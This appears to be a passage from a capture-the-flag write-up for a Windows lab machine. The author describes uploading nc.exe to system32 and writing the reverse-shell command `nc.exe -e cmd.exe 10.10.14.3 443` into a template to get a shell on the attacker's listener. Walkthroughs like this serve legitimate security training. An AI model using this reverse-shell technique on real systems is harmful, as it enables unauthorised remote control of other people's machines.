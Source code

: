 ![](/img/dropzone-ping.gif)

#### Shell

Now that I've proven code execution, I'll try to get a shell with `nc`.
First, upload nc.exe to `system32` (make sure to switch to binary mode
first, or the uploaded exe will be corrupt). Since that will be in the
path, I don't have to worry about giving a full path in the template (if
I wanted to do full path, I could double escape, so
`\\\\windows\\\\system32\\\\nc.exe`). Then I update the template with
`nc.exe -e cmd.exe 10.10.14.3 443`.

Upload, and shell:

![](/img/dropzone-shell.gif)
